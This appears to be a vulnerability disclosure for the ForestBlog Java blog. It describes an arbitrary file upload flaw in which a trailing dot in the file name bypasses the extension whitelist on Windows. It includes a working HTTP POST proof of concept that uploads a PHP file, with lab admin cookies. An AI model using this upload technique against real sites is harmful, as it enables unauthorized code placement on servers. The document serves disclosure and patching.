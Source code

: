 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](img/image-20231212235628456.png)





![image-20231212235938258](/../a/image-20231212235938258.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.21.64.185:8090
Content-Length: 217
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysCaHQits7v3jAaOh
Origin: http://172.21.64.185:8090
Referer: http://172.21.64.185:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=BB01F841CB10B9619AC5D0A1D363F4FD
Connection: close

------WebKitFormBoundarysCaHQits7v3jAaOh
Content-Disposition: form-data; name="file"; filename="aa.php."
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundarysCaHQits7v3jAaOh--

```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](image-20231213000618896.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](image-20231213000645385.png)
